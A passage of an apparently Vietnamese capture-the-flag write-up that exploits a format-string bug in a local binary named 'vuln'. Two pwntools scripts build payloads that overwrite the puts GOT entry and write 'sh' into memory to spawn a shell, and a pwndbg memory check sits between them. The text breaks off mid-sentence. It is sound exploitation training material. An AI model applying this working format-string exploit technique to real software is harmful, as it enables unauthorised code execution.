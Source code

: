 ```python
from pwn import *

r = process("./vuln")
gdb.attach(r, api=True)

pop_rdi_ret = 0x0000000000401323
ret = 0x000000000040101a
system = 0x4010b0
binsh = 0x404080
puts_got = 0x404018

payload = b"%10$n%4199203p%9$n------" + p64(puts_got) + p64(puts_got + 4)

r.sendline(payload)
r.interactive()

```
Nên nhớ chuỗi format string của ta phải ghi đủ stack, **len % 8 = 0**

magic

```shell
pwndbg> x/z 0x404018
0x404018 <puts@got.plt>:        0x00401323
```

continue

Chuỗi sh = 0x6873 = 26739

Do đó ta cần in ra trước 26739 kí tự rồi write giá trị vào địa chỉ chứ bin_sh

OKe,

```python
from pwn import *

r = process("./vuln")
gdb.attach(r, api=True)

pop_rdi_ret = 0x0000000000401323
ret = 0x000000000040101a
system = 0x4010b0
binsh = 0x404080
puts_got = 0x404018

payload = b"%12$n%26739p%10$n%4172464p%11$n-" + p64(binsh) + p64(puts_got) + p64(puts_got + 4)

r.sendline(payload)
r.interactive()

```

stack trước ghi gọi puts:
